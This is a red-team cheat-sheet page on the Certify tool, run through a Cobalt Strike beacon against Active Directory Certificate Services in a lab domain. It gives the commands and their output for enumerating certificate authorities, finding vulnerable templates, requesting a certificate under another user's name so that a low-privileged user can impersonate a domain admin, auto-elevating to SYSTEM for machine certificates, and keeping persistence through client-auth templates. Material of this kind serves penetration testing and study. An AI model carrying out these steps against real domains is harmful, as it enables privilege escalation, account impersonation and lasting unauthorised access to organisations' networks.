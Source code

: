 # Certify

## [[Misconfigured Certificate Templates]]
Get certificat details
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

[*] Root CAs

 Cert SubjectName              : CN=ca-1, DC=evil, DC=corp
 Cert Thumbprint               : 7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
 Cert Serial                   : 31AC83C6678F28994CFB58207C9FB668
 Cert Start Date               : 2/25/2022 11:29:14 AM
 Cert End Date                 : 2/25/2047 11:39:08 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp

[*] Enterprise/Enrollment CAs:

 Enterprise CA Name            : ca-1
 DNS Hostname                  : dc-1.evil.corp
 FullName                      : dc-1.evil.corp\ca-1
 Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
 Cert SubjectName              : CN=ca-1, DC=evil, DC=corp
 Cert Thumbprint               : 7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
 Cert Serial                   : 31AC83C6678F28994CFB58207C9FB668
 Cert Start Date               : 2/25/2022 11:29:14 AM
 Cert End Date                 : 2/25/2047 11:39:08 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp

 Enterprise CA Name            : ca-2
 DNS Hostname                  : dc-2.edu.evil.corp
 FullName                      : dc-2.edu.evil.corp\ca-2
 Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
 Cert SubjectName              : CN=ca-2, DC=edu, DC=evil, DC=corp
 Cert Thumbprint               : 2D0349C77D35808E35A7C6815CF37B51D9A5D431
 Cert Serial                   : 64000000067ED180604220703C000000000006
 Cert Start Date               : 3/1/2022 10:45:07 AM
 Cert End Date                 : 3/1/2024 10:55:07 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp -> CN=ca-2,DC=edu,DC=evil,DC=corp
``````

## Find vulnerable certificates
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
``````

## Request certificate for user
This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.  Request a certificate.
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.evil.corp\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : EDU\patrick
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=evil, DC=corp
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.evil.corp\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
``````

## Request certificate for machine
The `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account (for which you need to be running in high-integrity).
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.edu.evil.corp\ca-2 /template:Machine /machine
``````

## [[User & Computer Persistence]]
Find all certificates that permit client auth
To limit the volume of output, we can only return templates from the CA in our current domain, using `/ca:dc-2.edu.evil.corp\ca-2`

Requirements (default):
- Authorized Signatures Required: `0`
- Enrollment Rights: `domain\Domain Users`
- Validity Period: `1 year`

``````
beacon> getuid
[*] You are EDU\patrick

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
``````



```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/GhostPack/Certify
description: Used to query certificate information for [[Misconfigured Certificate Templates]]
```

